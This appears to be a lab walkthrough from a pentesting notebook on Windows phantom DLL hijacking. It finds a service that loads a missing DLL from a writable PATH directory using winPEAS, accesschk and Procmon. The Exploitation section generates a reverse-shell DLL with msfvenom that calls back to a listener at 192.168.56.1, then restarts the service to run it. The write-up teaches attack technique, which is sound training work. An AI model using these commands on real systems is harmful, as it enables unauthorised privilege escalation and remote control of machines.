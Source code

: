 # Phantom DLL Hijacking

## Detection

in this type of DLL we target a missing dll and place our own dll instead.

Use winPEAS to enumerate non-Windows services:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../.gitbook/assets/image%20%2871%29.png)

Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```text
accesschk.exe /accepteula -uvqc user dllsvc
```

![](../../../../.gitbook/assets/image%20%2881%29.png)

The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```text
 sc qc dllsvc
```

![](../../../../.gitbook/assets/image%20%2874%29.png)

![](../../../../.gitbook/assets/image%20%2888%29.png)

in a real-world scenario we would download the executable to our own windows machine of analysis.then create a new service for the binary file that we copied and give it the path of the service binary and continue to the next steps:

create a service for the binary in our own system

```text
sc create binPath= c:\temp\dllhijackservice.exe type= own 
```

Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

Add a new filter on the Process Name matching dllhijackservice.exe

![](../../../../.gitbook/assets/image%20%2878%29.png)

On the main screen, deselect registry activity and network activity.

![](../../../../.gitbook/assets/image%20%28102%29.png)

Start the service:

```text
net start dllsvc
```

![](../../../../.gitbook/assets/image%20%2880%29.png)

​​Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

![](../../../../.gitbook/assets/image%20%28103%29.png)

At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

## Exploitation

On Kali, generate a reverse shell DLL named hijackme.dll:

```text
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f dll -o VirtualBox\ VMs/shares/hijackme.dll
```

Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```text
net stop dllsvc
net start dllsvc
```

![](../../../../.gitbook/assets/image%20%2890%29.png)





